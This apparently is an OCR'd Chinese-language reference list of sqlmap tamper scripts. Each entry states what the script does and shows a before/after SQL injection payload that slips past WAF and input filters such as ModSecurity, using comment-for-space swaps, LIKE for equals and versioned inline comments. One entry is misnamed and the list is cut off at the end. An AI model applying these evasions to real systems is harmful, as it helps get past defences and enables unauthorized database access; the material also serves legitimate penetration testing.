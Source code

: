 ```

space2comment.py
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0 
作用：将空格替换为/**/ 
使用脚本前：tamper('SELECT id FROM users') 
使用脚本后：SELECT/**/id/**/FROM/**/users

equaltolike.py
测试通过数据库：Microsoft SQL Server 2005、MySQL 4, 5.0 and 5.5 
作用：将=替换为LIKE 
使用脚本前：tamper('SELECT * FROM users WHERE id=1') 
使用脚本后：SELECT * FROM users WHERE id LIKE 1

equaltolike.py
测试通过数据库：MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0 
作用：将>替换为GREATEST，绕过对>的过滤 
使用脚本前：tamper('1 AND A > B') 
使用脚本后：1 AND GREATEST(A,B+1)=A

ifnull2ifisnull.py
适用数据库：MySQL、SQLite (possibly)、SAP MaxDB (possibly) 
测试通过数据库：MySQL 5.0 and 5.5 
作用：将类似于IFNULL(A, B)替换为IF(ISNULL(A), B, A)，绕过对IFNULL的过滤 
使用脚本前：tamper('IFNULL(1, 2)') 
使用脚本后：IF(ISNULL(1),2,1)

modsecurityversioned.py
适用数据库：MySQL 
测试通过数据库：MySQL 5.0 
作用：过滤空格，使用mysql内联注释的方式进行注入 
使用脚本前：tamper('1 AND 2>1--') 
使用脚本后：1 /*!30874AND 2>1*/--

space2mysqlblank.py
适用数据库：MySQL 
测试通过数据库：MySQL 5.1 
作用：将空格替换为其他空格符号('%09', '%0A', '%0C', '%0D', '%0B') 
使用脚本前：tamper('SELECT id FROM users') 
使用脚本后：SELECT%0Bid%0DFROM%0Cusers

modsecurityzeroversioned.py
适用数据库：MySQL 
测试通过数据库：MySQL 5.0 
作用：使用内联注释方式（/*!00000*/）进行注入 
使用脚本前：tamper('1 AND 2>1--') 
使用脚本后：1 /*!00000AND 2>1*/--

space2mysqldash.py
适用数据库：MySQL、MSSQL 
作用：将空格替换为 -- ，并追随一个换行符 
使用脚本前：tamper('1 AND 9227=9227') 
使用脚本后：1--%0AAND--%0A9227=9227

bluecoat.py
适用数据库：Blue Coat SGOS 
测试通过数据库：MySQL 5.1,、SGOS 
作用：在sql语句之后用有效的随机空白字符替换空格符，随后用LIKE替换= 
使用脚本前：tamper('SELECT id FROM users where id = 1') 
使用脚本后：SELECT%09id FROM users where id LIKE 1

versionedkeywords.py
适用数据库：MySQL 
测试通过数据库：MySQL 4.0.18, 5.1.56, 5.5.11 
```
